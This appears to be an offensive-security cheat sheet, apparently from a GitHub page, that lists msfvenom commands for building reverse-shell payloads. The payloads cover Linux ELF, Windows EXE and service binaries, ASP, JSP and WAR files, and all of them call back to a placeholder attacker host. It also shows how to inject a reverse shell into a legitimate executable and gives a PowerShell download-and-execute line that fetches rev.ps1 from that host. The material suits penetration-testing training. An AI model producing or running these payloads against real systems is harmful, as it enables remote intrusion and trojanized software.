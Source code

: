 ### Linux ELF binary
```bash
# 32 bit
msfvenom -p linux/x86/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f elf -o shell.elf
# 64 bit
msfvenom -p linux/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f elf -o shell.elf
```
### Windows EXE binary
```bash
#32 Bit
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT EXIT_FUNC=thread -f exe -o shell32.exe
#64Bit
msfvenom -a x64 --platform Windows -p windows/x64/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT EXIT_FUNC=thread -f exe -o shell64.exe
```
### Windows Service
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT EXITFUNC=thread -f exe-service -o service.exe
```
### ASP
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f asp -o shell.asp
```
### JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f raw -o shell.jsp
```
### WAR (usually useful for tomcat)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -f war -o shell.war
```
### Inject payload into an existing exe file
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=KALI_IP LPORT=NC_PORT -x Legit.exe -f exe -o malicious.exe
```

### Decode base64 string in windows (sometime may need it due to special character)
```powershell
$base64String = 'BASE64_STRING'
$bytes = [System.Convert]::FromBase64String($base64String)
$text = [System.Text.Encoding]::UTF8.GetString($bytes)
Write-Output $text
```

### Check if current powershell session is a 64 bit process or not in windows
```powershell
[system.environment]::Is64BitProcess
```
If it is not, invoke 64 bit reverse powershell call
```
C:\Windows\sysNative\windows\powershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://KALI_IP/rev.ps1')
```

